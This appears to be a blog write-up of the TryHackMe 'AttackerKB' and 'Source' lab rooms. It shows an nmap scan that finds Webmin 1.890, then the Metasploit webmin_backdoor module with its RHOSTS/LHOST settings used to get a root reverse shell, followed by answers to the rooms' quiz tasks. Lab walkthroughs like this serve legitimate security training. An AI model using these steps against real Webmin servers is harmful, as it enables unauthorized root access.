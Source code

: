 ```yaml
---
layout: post
title: AttackerKB & Source | Writeup
categories: CTF
author: ThelastVvV
date: '2020-07-11 18:42:53 +0800'
tags:
  - CTF
  - CyberSecurity
  - TryHackMe
published: true
---
```


 Hallå gubbar , Today i will show you how easy this boxes are in a very simple explanation both [AttackerKB](https://tryhackme.com/room/attackerkb) &  [Source](https://tryhackme.com/room/source).
 

    ![alt text](https://thelastvvv.github.io/images/posts/1/flagroot.png "flag2")



`1 - Enumeration`

`2 - Exploitation`

`3-  Reverse shell`

`4-AttackerKB Tasks`


### 1 - Enumerationnmap scan :

```sh
$ nmap -T4 -A -v -Pn Box-ip
```
Results:



> PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
| 256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_ 256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open http MiniServ 1.890 (Webmin httpd)


### 2 - Exploitation
Source and AttackerKB:

One of the attached files of vulnerability is metasploit module that will allow us reverse shell the box so let open Metasploit


[https://github.com/rapid7/metasploit-framework/pull/12219]()


using this command:

```sh
$ msfconsole
```



then search "the exploit name or version"


![alt text](https://thelastvvv.github.io/images/posts/1/attack.png "search")


then choose 
```sh
$ unix/webapp/webmin_backdoor
```

![alt text](https://thelastvvv.github.io/images/posts/1/attavk.png "metasploit")



> RHOSTS : Box-ip

>RPORT: Box-port

>LHOST: Your-ip

>SSL : 1


### 3- Reverse shell

![alt text](https://thelastvvv.github.io/images/posts/1/reverse.png "shell")

volia session opened we are root so let check the hints and hunt the flags

User Flag:

![alt text](https://thelastvvv.github.io/images/posts/1/flag1.png "flag1")


Root Flag:


![alt text](https://thelastvvv.github.io/images/posts/1/flagroot.png "flag2")
### 4-AttackerKB Tasks:

Task 2 -Discovering the Lay of the Land :

From Nmap results we can find all our answers .....

Answers: 
`2-Webmin`
`3-1.890`
`4- from cert bellow figure it out`
### Task 3 - learning to fly:
Just explore Attackerkb then we will be able to answer the following "important to copy directly from Attackerkb site 

Answers: 
`3 1.890` 
`4 supply chain`
 `5 aug172019`
`6 githubfileinthetitle`



See you next time .....
